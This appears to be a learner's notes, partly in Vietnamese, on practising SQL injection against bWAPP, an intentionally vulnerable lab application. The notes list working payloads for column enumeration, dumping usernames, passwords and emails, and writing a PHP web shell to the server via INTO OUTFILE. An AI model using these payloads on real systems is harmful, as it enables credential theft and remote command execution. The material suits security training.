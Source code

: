 https://bwapp.hakhub.net/portal.php
user/pass diep

SQL Injection
#SQLI get/search 
1: go dau ' se hien ra loi
2: go hien tat ca ban ghi https://bwapp.hakhub.net/sqli_1.php?title='+'&action=search
3: iron' or 1=1#&action=search
4: title=validEntry' or 1=2#&action=search
5: title=iron' union select 1,2,3,4,5,6,7 #&action=search  8 cot la loi vi chi co 7 cot
6: iron' union select 1,user(),@@version,4,5,6,7 #&action=search
7: iron' union select 1,login,password,email,5,6,7 from users #
8: iron' union select 1,"<?php echo shell_exec($_GET['cmd'])?>",3,4,5,6,7 into OUTFILE
'/var/www/bWAPP/popped.php' #&action=search


SQLJ get/select
1: movie=1 and 1=2#&action=go
2: movie=1 union select 1,2,3,4,5,6,7#&action=go 6 cot la loi
3: movie=1337 union select 1,2,3,4,5,6,7#&action=go
4: movie=1337 union select 1,login,3,email,password,6,7 from users#&action=go
